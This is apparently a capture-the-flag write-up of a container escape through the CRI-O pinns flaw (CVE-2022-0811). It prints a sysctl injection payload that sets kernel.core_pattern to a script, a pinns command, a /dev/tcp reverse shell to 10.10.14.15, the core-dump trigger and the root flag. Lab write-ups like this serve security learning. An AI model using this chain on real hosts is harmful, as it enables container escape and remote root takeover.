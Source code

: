 There is a pinns binary.

googling finds an exploit, [link](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)
```bash
 cat ./sysctl-set.yaml
apiVersion: v1
kind: Pod
metadata:
  name: sysctl-set
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```
You can change the core pattern which will allow you to run a script when a core dump happens.

## Pinns source code
More source code.
```js
{"help", no_argument, NULL, 'h'},
{"uts", optional_argument, NULL, 'u'},
{"ipc", optional_argument, NULL, 'i'},
{"net", optional_argument, NULL, 'n'},
{"user", optional_argument, NULL, 'U'},
{"cgroup", optional_argument, NULL, 'c'},
{"mnt", optional_argument, NULL, 'm'},
{"dir", required_argument, NULL, 'd'},
{"filename", required_argument, NULL, 'f'},
{"uid-mapping", optional_argument, NULL, UID_MAPPING},
{"gid-mapping", optional_argument, NULL, GID_MAPPING},
{"sysctl", optional_argument, NULL, 's'},
```

```bash
pinns -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/exploit.sh' -d /dev/shm/ -f out  -U
```

This will set the core dump. Now to make the exp script.
```
#!/bin/bash
bash -i /dev/tcp/10.10.14.15/9001 0>&1
```

Then to create a coredump
```
sleep 20 &
kill -3 <proc number>
```

Which gives a root shell!

root.txt
```
fd8ee9d5166387cb468ce17c7f7db810
```

Fin